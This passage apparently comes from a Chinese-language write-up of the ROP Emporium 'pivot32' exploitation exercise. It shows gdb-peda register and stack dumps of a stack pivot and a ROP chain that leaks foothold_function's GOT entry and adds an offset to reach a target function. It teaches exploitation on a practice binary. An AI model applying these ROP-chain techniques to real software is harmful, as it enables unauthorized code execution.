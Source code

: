 ```
   0x8048896 <pwnme+164>:       call   0x80485b0 <fgets@plt>
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
=> 0x804889f <pwnme+173>:       leave  
   0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec70 --> 0xf755000a --> 0x0 
0004| 0xffe7ec74 --> 0x0 
0008| 0xffe7ec78 --> 0x2 
0012| 0xffe7ec7c --> 0x0 
0016| 0xffe7ec80 --> 0x1 
0020| 0xffe7ec84 --> 0xffe7ed44 --> 0xffe808cf ("./pivot32")
0024| 0xffe7ec88 --> 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
0028| 0xffe7ec8c --> 0xf655d010 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804889f in pwnme ()
```
EIP=`0x804889f`，同时 ESP+4。

第二次 leave：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x0 
ESP: 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
EIP: 0x80488a0 (<pwnme+174>:    ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
   0x804889f <pwnme+173>:       leave  
=> 0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
   0x80488a7 <uselessFunction+6>:       call   0x80485f0 <foothold_function@plt>
[------------------------------------stack-------------------------------------]
0000| 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>:        jmp    DWORD PTR ds:0x804a024)
0004| 0xf755cf14 --> 0x80488c0 (<usefulGadgets>:        pop    eax)
0008| 0xf755cf18 --> 0x804a024 --> 0x80485f6 (<foothold_function@plt+6>:        push   0x30)
0012| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0016| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0020| 0xf755cf24 --> 0x1f7 
0024| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0028| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488a0 in pwnme ()
gdb-peda$ x/10w 0xf755cf10
0xf755cf10:     0x080485f0      0x080488c0      0x0804a024      0x080488c4
0xf755cf20:     0x08048571      0x000001f7      0x080488c7      0x080486a3
0xf755cf30:     0x0000000a      0x00000000
```